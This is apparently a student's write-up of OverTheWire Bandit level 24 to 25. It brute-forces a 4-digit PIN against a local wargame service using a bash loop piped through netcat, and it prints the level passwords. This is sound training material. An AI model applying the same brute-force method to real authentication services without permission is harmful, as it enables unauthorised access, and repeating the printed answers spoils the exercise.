

# OverTheWire Bandit – Level 24 → Level 25

## 🎯 Level Objective
The goal of **Bandit Level 24 → Level 25** is to retrieve the password for the next level.

In this level:
- You are logged in as **bandit24**
- The password for bandit25 is protected by a **network service**
- The service requires the **bandit24 password + a 4-digit PIN**
- You must brute-force the PIN to obtain the correct password

---

## 🖥️ Environment Details
- Wargame: OverTheWire Bandit
- Current User: bandit24
- Target User: bandit25
- SSH Port: 2220
- Mechanism Used: Network service authentication
- Tool Used: netcat (nc)
- Service Host: localhost
- Service Port: 30002
- Working Directory: /tmp

---

## 🔐 Login Command
ssh bandit24@bandit.labs.overthewire.org -p 2220

---

## 🧪 Step-by-Step Solution

### Step 1️⃣ Understand the Service
The service expects input in this format:

bandit24_password PIN

Where:
- bandit24_password is the current level password
- PIN is a 4-digit number from 0000 to 9999

📌 Incorrect inputs return “Wrong”.
📌 Correct input returns the password for bandit25.

---

### Step 2️⃣ Move to a Safe Working Directory
cd /tmp

📌 Using /tmp avoids permission issues.

---

### Step 3️⃣ Create a Brute-Force Script
Create a script to generate all PIN combinations:

nano brute.sh

Script content:
#!/bin/bash
for i in {0000..9999}
do
  echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"
done

📌 This script prints every possible password + PIN combination.

---

### Step 4️⃣ Make the Script Executable
chmod +x brute.sh

---

### Step 5️⃣ Send the Script Output to the Service
Pipe the output into the network service:

./brute.sh | nc localhost 30002

📌 The service processes all combinations automatically.

---

### Step 6️⃣ Identify the Successful Response
Watch the output carefully:
- Most responses say “Wrong”
- One response will return a **success message**
- That line contains the password for bandit25

---

### Step 7️⃣ Retrieve the Password
Copy the password shown in the successful response.

---

## 🔐 Password Found

iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

---

## ➡️ Login to Next Level
Use the retrieved password:

ssh bandit25@bandit.labs.overthewire.org -p 2220

---

## 🖼️ Screenshot Evidence

---

## 📘 Key Concepts Learned
- Brute-force attack methodology
- Automating attacks using bash loops
- Piping command output into services
- Practical usage of netcat
- Understanding simple authentication mechanisms

---

## ✅ Level Status
✔️ Bandit Level 24 → Level 25 completed successfully

